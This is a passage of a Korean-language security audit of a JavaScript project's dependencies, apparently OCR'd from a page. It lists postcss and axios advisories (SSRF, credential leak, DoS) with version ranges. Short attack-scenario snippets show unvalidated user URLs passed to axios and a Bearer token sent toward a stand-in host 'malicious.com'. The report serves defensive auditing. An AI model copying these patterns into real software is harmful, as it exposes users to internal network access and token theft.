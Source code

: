 **의존성 체인**
```
react-scripts
└── resolve-url-loader
    └── postcss < 8.4.31 ❌
```

---

### 2. High 취약점: axios SSRF & DoS

#### 2-1. axios SSRF (GHSA-8hc4-vh64-cxmj)

**취약점 상세**
- **버전 범위**: 1.3.2 ≤ axios ≤ 1.7.3
- **프로젝트 버전**: 1.6.8 ❌
- **유형**: Server-Side Request Forgery

**공격 시나리오**
```javascript
// 취약한 코드 예시
const userInput = req.query.url; // 사용자 입력
axios.get(userInput); // 내부 네트워크 접근 가능
```

**위험성**
1. 내부 네트워크 리소스 접근 가능
2. 메타데이터 서버 접근 (AWS EC2, GCP 등)
3. 내부 API 비인가 호출

#### 2-2. axios Credential Leak (GHSA-jr5f-v2jv-69x6)

**취약점 상세**
- **버전 범위**: 1.0.0 ≤ axios < 1.8.2
- **유형**: 자격증명 유출

**공격 시나리오**
```javascript
// 절대 URL 사용 시 Authorization 헤더 유출
axios.get('/api/endpoint', {
  baseURL: 'https://malicious.com', // 리다이렉트 시
  headers: { Authorization: 'Bearer token' } // 유출됨
});
```

#### 2-3. axios DoS (GHSA-4hjh-wcwx-xvwj)

**취약점 상세**
- **버전 범위**: axios < 1.12.0
- **CVSS Score**: 7.5 (HIGH)
- **유형**: DoS via unlimited data size

**공격 시나리오**
```javascript
// 응답 크기 체크 부재
axios.get('https://malicious.com/huge-response'); // 메모리 고갈
```
